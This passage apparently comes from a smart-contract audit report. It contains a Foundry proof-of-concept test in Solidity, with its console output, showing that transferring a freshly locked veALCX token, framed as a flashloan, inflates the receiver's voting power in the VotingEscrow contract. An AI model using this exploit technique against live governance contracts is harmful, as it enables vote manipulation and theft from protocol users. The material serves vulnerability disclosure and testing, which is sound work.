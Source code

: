 ```solidity

    hevm.stopPrank();

    // Take a flashloan of veALCX
    console.log("\nTake a flashloan of veALCX token");
    uint256 tokenId2 = createVeAlcx(user2, TOKEN_1M, MAXTIME, false);
    console.log("Created VeALCX with 1M locked tokens");
    console.log("getVotes(user2)           :", veALCX.getVotes(user2));
    assertEq(veALCX.balanceOfToken(tokenId2), getMaxVotingPower(TOKEN_1M, veALCX.lockEnd(tokenId2)));

    // Transferring tokenId2 from user2 to user1
    console.log("\nTransferring flashloaned tokenId2 from user2 to user1");
    hevm.startPrank(user2);
    veALCX.safeTransferFrom(user2, user1, tokenId2);
    assertEq(veALCX.ownerOf(tokenId2), user1);
    hevm.stopPrank();

    console.log("balanceOfToken(tokenId)   :", veALCX.balanceOfToken(tokenId));
    console.log("balanceOfToken(tokenId2)  :", veALCX.balanceOfToken(tokenId2));
    console.log("balanceOfTokenAt(tokenId2):", veALCX.balanceOfTokenAt(tokenId2, block.timestamp));
    console.log("getVotes(user1)           : %s <= Inflated voting power", veALCX.getVotes(user1));
    console.log("getVotes(user2)           :", veALCX.getVotes(user2));

    assertEq(veALCX.balanceOfToken(tokenId2), 0);
    assertEq(veALCX.getVotes(user1), veALCX.balanceOfToken(tokenId) + veALCX.balanceOfTokenAt(tokenId2, block.timestamp));

    hevm.stopPrank();
}
```

**Console Output:**

```shell
> FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testVoteInflationByTransferToken -vvv

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testVoteInflationByTransferToken() (gas: 2317763)
Logs:
  balanceOfToken(tokenId)   : 1994518328243124355
  getVotes(user1)           : 1994518328243124355
  getVotes(user2)           : 0

Take a flashloan of veALCX token
  Created VeALCX with 1M locked tokens
  getVotes(user2)           : 1994518328259766615659745

Transferring flashloaned tokenId2 from user2 to user1
  balanceOfToken(tokenId)   : 1994518328243124355
  balanceOfToken(tokenId2)  : 0
  balanceOfTokenAt(tokenId2): 1994518328259766615659745
  getVotes(user1)           : 1994520322778094858784100 <= Inflated voting power
  getVotes(user2)           : 0
```
